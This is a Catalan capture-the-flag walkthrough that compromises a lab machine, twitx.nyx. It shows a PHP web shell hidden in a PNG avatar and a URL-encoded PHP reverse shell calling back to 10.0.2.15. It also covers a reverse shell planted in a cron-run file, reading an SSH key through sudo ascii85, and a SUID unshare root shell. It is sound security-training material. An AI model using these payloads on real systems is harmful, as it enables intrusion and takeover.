La màquina té dues banderes, una per a l'usuari i una altra per a root.

És el primer CTF creat per mi. Segurament trobaràs altres mètodes d'entrada a més dels previstos.

CTF dedicat a streamers i creadors de contingut que em van ensenyar algunes tècniques de hacking. Pots utilitzar-ho per a qualsevol propòsit, ja que normalment no faig subscripcions, aquesta és la meva contribució.

Espero que ho gaudeixis.

## Taula de continguts

## Enumeració, ports i serveis

`$ nmap -p- 192.168.1.195 -oN nmap.txt -vvv`



Vam trobar 2 ports oberts, 22 i 80 (SSH i HTTP). Donem una ullada més a prop a aquests dos ports per intentar obtenir més informació.

`$ nmap -sV -sC -A -p 80,22 192.168.1.195 -oN nmap2.txt -vvv`



El servei web al port 80 sembla tenir la pàgina predeterminada de:



Fem una enumeració de directoris amb dirb:

`$ dirb http://192.168.1.195`



Vam trobar diverses rutes, però les que més ens interessen són: /note i /info.php.

A “/info.php” trobem la típica sortida de “phpInfo()” amb molta informació sobre el sistema, per la qual cosa sabem que el servidor té PHP instal·lat, quins mòduls de PHP estan habilitats, quines funcions del tipus exec, eval, include podem utilitzar, etc.



A “/note” només hi ha un fitxer de text amb el següent missatge:

*Recorda comprar el certificat per al domini twitx.nyx per al llançament.*

Afegim el domini twitx.nyx al fitxer hosts:

`echo "192.168.1.195 twitx.nyx" >> /etc/hosts`



## Enumeració 2, servei web

Després d'afegir el domini “twitx.nyx” al fitxer /etc/hosts, hi accedim a través del navegador i trobem un lloc web de streamers.



Al lloc web, observem diverses coses a primera vista:

- Hi ha un compte enrere per al proper llançament en unes 24 hores.
- Les seccions "Streamers" i "About" valen la pena revisar ;)
- Hi ha un formulari de registre on pots pujar un fitxer per a la imatge de l'avatar, això sembla molt interessant.

Enumeració de directoris amb dirb:

`$ dirb http://twitx.nyx`

Vam trobar diferents carpetes amb imatges i fitxers PHP, les més interessants per a la intrusió són les següents:

```
/upload
/user
/includes
```

Analitzem el codi del lloc on trobem diferents coses interessants a primera vista.

Hi ha dos codis ofuscats dins de la programació del lloc, el primer es troba a /index.php a la línia 522.



L'altre codi ofuscat està al final del fitxer /js/scripts.js.



Aquest últim té un comentari abans que diu "Countdown", el que podria suggerir que té a veure amb el compte enrere a la pàgina.

També trobem una variable declarada al final del fitxer “/index.php” anomenada `dateFinish`. Si busquem aquesta variable a la programació, veurem que s'utilitza dins del codi JavaScript ofuscat.



Una altra cosa interessant que veiem a la línia 245 és que el formulari s'envia a “/?send”.



I potser el més interessant és el formulari de registre.



En aquest formulari, sota de "imatge de l'avatar" hi ha un comentari: Max upload: 2MB., només PNG i 150x150 com a màxim, s'accepten resolucions més altes però seran transformades.

## Intrusió

Hi ha diferents formes d'aconseguir la intrusió, en aquesta ocasió, explicaré el que crec que és la manera més fàcil d'obtenir accés inicial a la shell del servidor.

### Shell per a www-data

Per obtenir el primer accés, primer necessitem preparar una imatge per al nostre avatar amb una web shell, és important que aquesta imatge sigui menor a 150 píxels perquè en pujar-la no sigui transformada, el que causaria que la shell inclosa a la imatge es perdi o es corrompi.

També és important que la imatge estigui en format PNG, i no n'hi ha prou amb només canviar l'extensió; també es verifica el mimetype, per la qual cosa és millor utilitzar una imatge real.

Creant una imatge amb una web shell PHP incrustada, per evitar que la imatge es vegi afectada, podem incloure-la, per exemple, com un comentari a la imatge. Prefereixo aquest mètode ja que la imatge no es modifica.

```
$ exiftool -comment='<?php if(isset($_REQUEST["cmd"])){ echo "<pre>"; $cmd = ($_REQUEST["cmd"]); system($cmd); echo "</pre>"; die; }?>' avatar.png
```

Una altra manera és incloure-la directament a la imatge, però només incloure-la una vegada.

```
$ echo '<?php if(isset($_REQUEST["cmd"])){  echo "<pre>"; $cmd = ($_REQUEST["cmd"]); system($cmd); echo "</pre>"; die; }?>' >> avatar.png
```

Ens registrem amb un usuari utilitzant la imatge creada com a l'avatar de l'usuari, i anotem la contrasenya.

Ara necessitem fer creure al lloc que ha arribat l'hora del llançament, podem fer-ho de diferents maneres. Canviant la data a la nostra computadora, també podem desofuscar el codi i acabar veient el formulari d'inici de sessió i quin és l'endpoint/URL POST on es fan arribar les credencials, o simplement modificant la variable dateFinish que hem trobat.

Per modificar aquesta variable, obrim la consola del navegador prement la tecla F12 i canviem la data de llançament a la data actual entrant:

```
dateFinish = new Date();
```



Fent això es mostrarà l'enllaç de Log-in per iniciar sessió amb l'usuari creat.



Iniciem sessió amb l'usuari creat anteriorment i ara podem veure l'enllaç "My Profile" al menú.

L'enllaç ens porta a una URL molt interessant on podem veure les dades del nostre usuari i la imatge carregada.

[](http://twitx.tv/private.php?folder=user&file=profile.php)http://twitx.nyx/private.php?folder=user&file=profile.php



Aquest enllaç sembla tenir un LFI però està molt sanititzat i només permet carregar un fitxer (paràmetre file) des d'una carpeta (paràmetre folder).

Revisem l'adreça de la nostra imatge d'avatar, en el meu cas l'adreça és:
/upload/17777047896641350dc29929.54816126.png

Carreguem l'adreça següent al navegador, modificant els paràmetres folder i file als de la imatge de l'avatar i afegint el paràmetre cmd.

http://twitx.nyx/private.php?folder=upload&file=17777047896641350dc29929.54816126.png&cmd=whoami



Ara és moment de provar de fer una reverse shell amb el que hem aconseguit.

Comencem configurant un listener netcat al port desitjat.



Com que sabem que el servidor té PHP instal·lat, utilitz

em la següent reverse shell:

`php -r '$sock=fsockopen("10.0.2.15",4443);exec("/bin/bash <&3 >&3 2>&3");'`

Però primer, la codifiquem en URL:

`php%20-r%20%27%24sock%3Dfsockopen%28%2210.0.2.15%22%2C443%29%3Bexec%28%22%2Fbin%2Fbash%20%3C%263%20%3E%263%202%3E%263%22%29%3B%27`

Ara només necessitem carregar la següent URL:

`http://twitx.nyx/private.php?folder=upload&file=17777047896641350dc29929.54816126.png&cmd=php%20-r%20%27%24sock%3Dfsockopen%28%2210.0.2.15%22%2C443%29%3Bexec%28%22%2Fbin%2Fbash%20%3C%263%20%3E%263%202%3E%263%22%29%3B%27`

I obtenim accés a la shell:



## Moviment lateral cap a l'usuari timer

Ara podem enumerar els usuaris del sistema.



Veiem alguns usuaris interessants: lenam i timer. També podem veure tota la programació del lloc twitx.nyx, on trobem dues coses molt interessants a la carpeta `/var/www/twitx.nyx/includes`.

Fitxer **config.php** on podem veure les credencials de la base de dades.



Fitxer **taak.php**, que sembla molt interessant a causa dels comentaris que apareixen en ell. Tenim permisos d'escriptura, i és molt probable que sigui executat per una tasca programada.



### Hash de la base de dades

Accedim a la base de dades i verifiquem que hi ha una taula anomenada `users` amb les següents dades:



Vam trobar un hash per a l'usuari “Lenam”, qui té el rol de “adm”. Intentem forçar-lo amb john i la wordlist rockyou.

Primer, verifiquem quin tipus de hash és; sembla ser bcrypt.



Intentem forçar-lo amb john the ripper i trobem la contrasenya “patricia”, john la trobarà molt ràpidament.



Aquesta contrasenya actualment no ens és útil, podem iniciar sessió al lloc amb l'usuari [lenamgenx@protonmail.com](mailto:lenamgenx@protonmail.com) i la contrasenya “patricia”, però no ens atorga més privilegis en aquest moment. Ja podem veure tota la programació del lloc.

### Fitxer taak.php

El fitxer taak.php sembla ser una tasca programada. També tenim permisos d'escriptura en ell:



Preparem una reverse shell en PHP per incloure-la al fitxer taak.php i configurem un listener. Utilitzem la reverse shell en PHP de rebshells.com per “PHP Ivan Sincek” i la incloem al final del fitxer taak.php, però amb compte de no incloure el primer `<?`, com això:



Configurem un listener i en un minut o menys, som l'usuari timer.

`$ nc -lvnp 8080`



## Moviment lateral de timer a lenam

Veiem la tasca programada que ens va permetre moure'ns a aquest usuari:



A més, l'usuari timer té permisos sudo sense contrasenya per executar el binari `/usr/bin/ascii85`.



Aquest executable s'utilitza per codificar bytes a text en base85, i en no validar adequadament els permisos de sudo dins de l'executable, podem llegir qualsevol fitxer al sistema.

Més informació: [https://gtfobins.github.io/gtfobins/ascii85/](https://gtfobins.github.io/gtfobins/ascii85/)

Utilitzem això per veure si algun usuari té una clau privada id_rsa, i trobem una per a l'usuari lenam.

`timer@twitx:~$ sudo /usr/bin/ascii85 "/home/lenam/.ssh/id_rsa" | ascii85 –decode`



Aprofitem aquesta clau privada, la copiem en un fitxer a la nostra màquina i aplicem els permisos necessaris per utilitzar-la via ssh. Ens demana una contrasenya, utilitzem la contrasenya “patricia” obtinguda en descifrar el hash de la base de dades de lenam.

`$ ssh -i id_rsa lenam@192.168.1.195`



Ara som l'usuari lenam.

## Escalada de privilegis de lenam a root

Busquem fitxers amb SUID.

`~$ find / -perm -u=s -type f 2>/dev/null`



i trobem el fitxer `/home/lenam/look/inside/unshare`.

És un executable utilitzat per crear nous namespaces i executar programes en ells, tenim l'opció d'escalar privilegis.

Més informació:

[https://gtfobins.github.io/gtfobins/unshare/](https://gtfobins.github.io/gtfobins/unshare/)

Aleshores executem:

`~/look/inside$ ./unshare -r /bin/sh`



Felicitats, CTF completat!
